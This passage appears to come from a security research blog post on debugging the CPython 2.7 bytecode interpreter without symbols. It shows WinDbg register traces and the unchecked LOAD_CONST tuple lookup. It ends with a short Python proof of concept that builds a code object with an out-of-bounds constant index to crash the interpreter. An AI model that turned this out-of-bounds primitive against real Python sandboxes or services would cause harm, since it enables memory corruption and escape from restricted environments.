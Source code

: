 ```text Push the resulting object onto the virtual stack
0:000> 
eax=025eaac0 ebx=025eaac0 ecx=00000005 edx=000004fb esi=025eaaa0 edi=025eafc0
eip=1e0ecb82 esp=0027fcd8 ebp=026bf0dc iopl=0         nv up ei pl nz ac po cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200213
python27!PyEval_EvalFrameEx+0x8d2:
1e0ecb82 895dfc          mov     dword ptr [ebp-4],ebx ss:002b:026bf0d8=a0aa5e02
```

Last part of our deep dive, the *RETURN_VALUE* opcode:

```text Fetching the RETURN_VALUE opcode
0:000> 
eax=025eaac0 ebx=025eafc0 ecx=025ea91b edx=026bef98 esi=025eaac0 edi=025eafc0
eip=1e0ec562 esp=0027fcd8 ebp=026bf0dc iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200246
python27!PyEval_EvalFrameEx+0x2b2:
1e0ec562 0fb601          movzx   eax,byte ptr [ecx]         ds:002b:025ea91b=53
```

All right, at least now you have a more precise idea about how that Python virtual machine works, and more importantly how you can directly debug it without symbols. Of course, you can download the debug symbols on Linux and use that information in gdb ; it should make your life easier (....but I hate gdb man...).

Note that I would love very much to have a debugger at the Python bytecode level, it would be much easier than instrumenting the interpreter. If you know one ping me! If you build one ping me too :-).

# The bug #
Here is the bug, spot it and give it some love:

```c LOAD_CONST bug
#ifndef Py_DEBUG
#define GETITEM(v, i) PyTuple_GET_ITEM((PyTupleObject *)(v), (i))
#else
//...
/* Macro, trading safety for speed <-- LOL, :) */ 
#define PyTuple_GET_ITEM(op, i) (((PyTupleObject *)(op))->ob_item[i])

case LOAD_CONST:
  x = GETITEM(consts, oparg);
  Py_INCREF(x);
  PUSH(x);
  goto fast_next_opcode;
```

This may be a bit obscure for you, but keep in mind we control the index *oparg* and the content of *consts*. That means we can just push *untrusted* data on the virtual stack of the VM: brilliant. Getting a crash out of this bug is fairly easy, try to run these lines (on a Python 2.7 distribution):

```python craaaaash
import opcode
import types

def a():
  pass

a.func_code = types.CodeType(
  0, 0, 0, 0,
  chr(opcode.opmap['EXTENDED_ARG']) + '\xef\xbe' +
  chr(opcode.opmap['LOAD_CONST'])   + '\xad\xde',
  (), (), (), '', '', 0, ''
)
a()
```
